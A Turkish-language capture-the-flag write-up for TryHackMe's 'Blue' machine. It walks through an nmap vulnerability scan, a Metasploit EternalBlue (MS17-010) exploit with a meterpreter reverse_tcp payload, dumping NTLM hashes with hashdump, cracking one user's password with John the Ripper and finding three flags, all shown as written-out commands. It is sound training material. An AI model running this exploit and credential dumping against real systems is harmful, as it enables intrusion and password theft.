






# CTF Writeup - Blue (TryHackMe)

## Genel Bilgiler
| Alan       | Bilgi                 |
| ---------- | --------------------- |
| Makine Adı | Blue                  |
| Platform   | TryHackMe             |
| IP Adresi  | 10.10.3.18            |
| Zorluk     | Kolay                 |
| Tür        | Windows / SMB Exploit |

---

## 1. Keşif (Recon)

### Nmap Taraması

```bash
nmap 10.10.3.18 -sS -sV --script vuln
```

### Açık Portlar
- 445/tcp - Microsoft-ds (SMB)
- 139/tcp - NetBIOS
- 135/tcp - MS RPC



SMB servisinin çalıştığı 445 numaralı portta EternalBlue zafiyeti (MS17-010) tespit edildi.

---

## 2. Exploit Aşaması

Zafiyet: **MS17-010 (EternalBlue)**  
Araç: `Metasploit`





```bash
msf6 > search ms17-010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > show options
msf6 > set RHOSTS 10.10.3.18
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > exploit -j -z
```


(Bağlantı bilgisinde hedef makine IP 'sinin farklı görünmesinin sebebi makineyi yeniden başlatmış olmamdır.)


```bash
sessions -i 1
```

---

## 3. Yetki Kontrolü

Exploit adımından sonra meterpreter shell elde edildi ve sisteme girildi. `getuid` komutuyla sistem üzerinde admin haklarına sahip olunduğu teyit edildi.


```bash
getuid
sysinfo
```
---

## 4. Hash Kırma

`hashdump` komutu ile sistemdeki kullanıcı parolalarının NTLM hashleri elde edildi.



Burada Jon kullanıcısının NTLM hashine odaklanıyoruz. NTLM hashlerinde asıl parolayı barındıran kısım üzerini yeşil ile geçtiğim kısımdır.

```bash
echo ffb43f0de35be4d9917ac0cc8ad57f8d > hash.txt
```



John The Ripper aracı ile Jon kullanıcısının parola hashi kırıldı ve parola `alqfna22` olarak bulundu.

---

## 6. Ele Geçirilen Flag 'ler

```bash
search -f flag1.txt
search -f flag2.txt
search -f flag3.txt
```


| Flag Türü | Konumu                                      |
| --------- | ------------------------------------------- |
| flag1.txt | C:\flag1.txt                                |
| flag2.txt | C:\Windows\System32\config\flag2.txt        |
| flag3.txt | C:\Users\Jon\Documents\flag3.txt            |

---

